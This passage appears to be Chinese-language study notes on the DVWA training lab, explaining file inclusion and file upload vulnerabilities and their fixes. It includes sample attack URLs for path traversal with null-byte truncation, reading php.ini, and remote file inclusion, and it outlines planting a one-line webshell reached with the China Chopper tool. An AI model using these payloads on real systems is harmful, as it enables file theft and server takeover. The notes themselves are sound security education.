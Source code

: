 ### 原因：
你想用户点击这几个按钮（url的page参数是你想的那几个），并执行这个文件（如果是php）或者返回这个文件内容。但是用户可以修改page后面的参数成其他路径，或者远程路径。这就造成了任意文件获取和任意命令执行

```
http://192.168.153.130/dvwa/vulnerabilities/fi/page=C:\xampp\htdocs\dvwa\php.ini
http://192.168.153.130/dvwa/vulnerabilities/fi/page=..\..\..\..\..\..\..\..\..\xampp\htdocs\dvwa\php.ini%0012.php
http://192.168.153.130/dvwa/vulnerabilities/fi/page=http://192.168.5.12/phpinfo.txt
```

### 方案：
检查file后面的参数，只能是我显示的那几个文件名的字符。

## 8. File upload

### 原因： 
通常是由于对上传文件的类型、内容没有进行严格的过滤、检查，使得攻击者可以通过上传木马获取服务器的webshell权限，因此文件上传漏洞带来的危害常常是毁灭性的

文件上传漏洞的利用是有限制条件的：

1. 首先当然是要能够成功上传木马文件，
2. 其次上传文件必须能够被执行，
3. 最后就是上传文件的路径必须可知

攻击方法：

- 先上传一句话木马
- 在用中国菜刀去访问这个木马文件

### 方案：

- 对上传文件进行了重命名（为md5值，导致%00截断无法绕过过滤规则）
- 同时对文件的内容作了严格的检查（从image图像以filename为文件名创建一个JPEG图像），导致攻击者无法上传含有恶意脚本的文件

## 参考
- [新手指南DVWA](http://www.freebuf.com/author/lonehand)

- [讲dvwa的:](https://github.com/ethicalhack3r/DVWA)

- [django 安全实践：](http://www.atjiang.com/2scoopsdjango1.8-26-security-best-practices/)


  [1]: http://static.zybuluo.com/ranger-01/o6wgtv1pqeh873bozrg0l6qy/image_1c6uo5iug1tve3iovg51jk5111u9.png
  [2]: http://static.zybuluo.com/ranger-01/nqvybqwl145cy6yvor399hxj/image_1c709mj4k1sbtm5n1cbvnb81gs4m.png
  [3]: http://static.zybuluo.com/ranger-01/zdtkgh5fvwcajzyrqax8588b/image_1c71foli1q44lk519v6poe145213.png
  [4]: http://static.zybuluo.com/ranger-01/58pq7gdh9uin3414uxylgdcn/image_1c71g3nji8nc1jggen8fmf19p71g.png